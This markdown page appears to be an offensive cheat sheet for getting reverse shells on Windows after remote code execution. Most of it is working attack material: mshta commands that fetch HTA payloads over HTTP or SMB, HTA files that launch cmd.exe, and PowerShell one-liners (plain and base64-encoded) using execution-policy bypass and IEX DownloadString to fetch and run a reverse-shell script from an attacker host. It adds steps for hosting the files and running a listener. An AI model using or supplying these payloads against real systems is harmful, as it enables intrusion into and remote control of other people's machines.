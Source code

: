# Getting shells from RCE on Windows

These are just some of the ways

* Sources:
    * [hacktricks.xyz](https://book.hacktricks.xyz/shells/shells/windows)
    * [Arno0x](https://gist.github.com/Arno0x/91388c94313b70a9819088ddf760683f)
    
    
## mshta
* Two types of files to download and execute
    * .hta
    * .sct

* Two types of ways (that I know of) to retrieve
    * http
        * `#!batch mshta http://webserver/payload.hta`
    * smb
        * `#!batch mshta \\webdavserver\folder\payload.hta`

* Script: [Arno0x](https://gist.github.com/Arno0x/91388c94313b70a9819088ddf760683f)
    ```html
    <html>
    <head>
    <HTA:APPLICATION ID="HelloExample">
    <script language="jscript">
            var c = "cmd.exe /c calc.exe"; 
            new ActiveXObject('WScript.Shell').Run(c);
    </script>
    </head>
    <body>
    <script>self.close();</script>
    </body>
    </html>
    ```

* Sample usage to get powershell shell
    1. On your Kali, host (i.e. `#!bash python3 -m http.server`) the two files
        * an hta file, i.e. from: [Arno0x](https://gist.github.com/Arno0x/91388c94313b70a9819088ddf760683f)
            ```html
            <html>
            <head>
            <HTA:APPLICATION ID="HelloExample">
            <script language="jscript">
                    var a = 'powershell -Exec Bypass IEX (New-Object System.Net.WebClient).DownloadString("""http://<YOUR_KALI_IP_OR_FILEHOSTING_MACHINE>:8000/mini-reverse.ps1""")'
                    var b = 'powershell -Exec Bypass -c "IEX(New-Object System.Net.WebClient).DownloadString("""http://<YOUR_KALI_IP_OR_FILEHOSTING_MACHINE>:8000/mini-reverse.ps1""")"'
                    var c = 'powershell -Exec Bypass -e SQBFAFgAKABOAGUAdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAdAAuAFcAZQBiAEMAbABpAGUAbgB0ACkALgBEAG8AdwBuAGwAbwBhAGQAUwB0AHIAaQBuAGcAKABoAHQAdABwADoALwAvADwAWQBPAFUAUgBfAEsAQQBMAEkAXwBJAFAAXwBPAFIAXwBGAEkATABFAEgATwBTAFQASQBOAEcAXwBNAEEAQwBIAEkATgBFAD4AOgA4ADAAMAAwAC8AbQBpAG4AaQAtAHIAZQB2AGUAcgBzAGUALgBwAHMAMQApAA=='
                    new ActiveXObject('WScript.Shell').Run(a);
            </script>
            <!-- -------READ------- -->
            <!--var c is base64 encoded with the value of "IEX(New-Object System.Net.WebClient).DownloadString('http://<YOUR_KALI_IP_OR_FILEHOSTING_MACHINE>:8000/mini-reverse.ps1')" -->
            <!-- """ does not work in encoding, use proper syntax -->
            <!-- choose between var a,b or c to replace 'x' in ...').Run(x) above
            </head>
            <body>
            <script>self.close();</script>
            </body>
            </html>
            ```
        * [mini-reverse.ps1](https://gist.github.com/staaldraad/204928a6004e89553a8d3db0ce527fd5) from @staaldraad
            * Modify to change IP Address and port of reverse shell listener
    1. On your Kali, Run your reverse shell listener (`msf exploit/multi/hanlder` or `#!bash nc`)
    1. On the target machine, execute:
        ```batch
        mshta http://<YOUR_KALI_IP_OR_FILEHOSTING_MACHINE>:8000/mini-reverse.hta
        ```
    
        
## Powershell
   * Please see script with examples above (mshta - var a,b and c)
   * To be added here and more
   * Working shells I have tried:
      * [Mini-Reverse](https://gist.github.com/staaldraad/204928a6004e89553a8d3db0ce527fd5) by @staaldraad


